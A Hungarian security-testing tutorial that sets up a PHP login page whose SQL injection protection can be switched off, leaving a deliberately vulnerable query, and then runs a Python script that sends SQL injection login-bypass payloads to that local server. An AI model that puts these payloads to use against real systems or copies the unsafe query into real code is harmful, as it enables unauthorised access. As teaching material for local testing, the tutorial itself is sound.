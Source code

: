 # A biztonság tesztelése

* **Szerző:** Sallai András
* Copyright (c) 2024, Sallai András
* Licenc: [CC Attribution-Share Alike 4.0 International](https://creativecommons.org/licenses/by-sa/4.0/)
* Web: [https://szit.hu](https://szit.hu)

## Tartalomjegyzék

* [Tartalomjegyzék](#tartalomjegyzék)
* [A biztonsági tesztelésről](#a-biztonsági-tesztelésről)
* [Tesztelési módszertanok](#tesztelési-módszertanok)
* [SQL Injection teszt](#sql-injection-teszt)
* [Lehetséges egyéb megoldások](#lehetséges-egyéb-megoldások)

## A biztonsági tesztelésről

A cél a szoftverek sérülékenységeinke feltárása, az érzékyen adatok megvédése.

## Tesztelési módszertanok

* biztonsági vizsgálat
* sebezhetőség vizsgálat
* behatolásteszt
* etikus hackelés

![Biztonsági tesztelés módszertanok](images/Biztonsagi_teszt_modszertanok.png)

![Biztonsági tesztelés módszertanai grafikonon](images/Biztonsagi_tesztek_grafikonon.png)

### Biztonsági vizsgálat

* Fehérdobozos teszt.
* Pl. valóban kötelező a betűk és számok használata a jelszavaknál?

### Sebezhetőség vizsgálat

* Zöld dobozs teszt.
* Biztonsági rések mintáit keresi egy automatizált szoftver.
* Pl. Valamilyen bemenetre, érzékeny adatokat szolgáltat az alkalmazás.

### Behatolásteszt

* Fekete dobozos teszt.
* A tesztelőnek nincs jogosultsága.
* Nehezen automatizálható.
* Kétféle:
  * Blue teaming (a tesztelő ismeri az infrastruktúrát)
  * Red teaming (a tesztelő nem ismeri az infrastruktúrát)

### Etikus hackelés

* Előzetes ismeretek nélküli teszt.
* Akár pszichológiai manipulációval (social engineering).

## SQL Injection teszt

A Python requests könyvtárát fogjuk használni.

### PHP beléptető felület készítése

Egy egyszerű PHP beléptető felületet fogunk készíteni, amiben be és ki lehet kapcsolni a SQL Injection elleni védelmet:

#### Adatbázis

```sql
CREATE DATABASE test_db;

USE test_db;

CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL UNIQUE,
    password VARCHAR(255) NOT NULL
);

INSERT INTO users (username, password) 
VALUES ('admin', PASSWORD('admin_password'));

INSERT INTO users (username, password) VALUES 
('user', PASSWORD('user_password'));

grant all 
on test_db.* 
to 'test_user'@'localhost' 
identified by 'test_password';
```

#### PHP kód

src/login.php:

```php
<?php
// Adatbázis kapcsolat adatai
$servername = "localhost";
$username = "test_user"; // az adatbázis felhasználóneve
$password = "test_password"; // az adatbázis jelszava
$dbname = "test_db";

// SQL injekció elleni védelem kapcsolója
define('USE_PREPARED_STATEMENTS', false);

// Kapcsolódás az adatbázishoz
$conn = new mysqli($servername, $username, $password, $dbname);

// Kapcsolat ellenőrzése
if ($conn->connect_error) {
    die("Kapcsolódási hiba: " . $conn->connect_error);
}

// Űrlap feldolgozása
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $input_username = $_POST['username'];
    $input_password = $_POST['password'];

    if (USE_PREPARED_STATEMENTS) {
        trigger_error("-------Védett----------");
        // SQL injekció ellen védett megoldás
        $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = password(?)");
        $stmt->bind_param("ss", $input_username, $input_password);
        $stmt->execute();
        $result = $stmt->get_result();
        
    } else {
        // Nem védett megoldás (sebezhető SQL injekcióra)
        trigger_error("------Nem védett-----------");
        $sql = "SELECT * FROM users WHERE username = '$input_username' AND password = password('$input_password')";
        trigger_error($sql);
        $result = $conn->query($sql);
    }

    // Felhasználó ellenőrzése
    if ($result->num_rows > 0) {
        echo "Sikeres bejelentkezés!";
    } else {
        echo "Hibás felhasználónév vagy jelszó!";
    }
}
?>

<!DOCTYPE html>
<html lang="hu">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Bejelentkezés</title>
</head>
<body>
    <h2>Bejelentkezés</h2>
    <form method="post">
        <label for="username">Felhasználónév:</label>
        <input type="text" name="username"><br><br>
        <label for="password">Jelszó:</label>
        <input type="password" name="password"><br><br>
        <input type="submit" value="Bejelentkezés">
    </form>
</body>
</html>
```

### Telepítés

```bash
pip install requests
```

### A tesztelés

Indítsuk el a fenti szervert.

```bash
php -S localhost:3000 -t src
```

Az src helyére a könyvtár neve, ahol van a login.php.

* localhost:3000/login.php

Egyszerű tesztkód:

```python
import requests

url = "http://localhost:3000/login.php"

payloads = [
    ("admin", "admin"),
    ("admin", "admin_password"),
    ("admin' -- ", ""),
    ("' OR '1'='1' or '1'='1", "")
]

for username, password in payloads:
  response = requests.post(
    url, 
    data={
        'username': username, 
        'password': password
        })

  # Ellenőrizzük a választ tartalmát:
  if "Sikeres bejelentkezés" in response.text:
    print(f"Sikeres támadás: {username} - {password}")
  elif "error" in response.text.lower():
    print(f"Hiba a támadás során: {username} - {password}")
  else:
    print(f"Nem működött   : {username} - {password}")

```

* [https://github.com/oktat/sql_injection_test.git](https://github.com/oktat/sql_injection_test.git)

## Lehetséges egyéb megoldások

Webes alkalmazások:

* [ZAP -Zed Attack Proxy](https://www.zaproxy.org/)
* [Burp Suite](https://portswigger.net/burp/communitydownload)
* [Acunetix](https://www.acunetix.com/)

Mobil alkalmazások:

* [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF)
* [Qark](https://github.com/linkedin/qark)
* [Drozer](https://github.com/WithSecureLabs/drozer)

Asztali alkalmazásokhoz

* [SonaQube](https://www.sonarsource.com/products/sonarqube/)
* [Veracode](https://www.veracode.com/)
* [Checkmarx](https://checkmarx.com/)
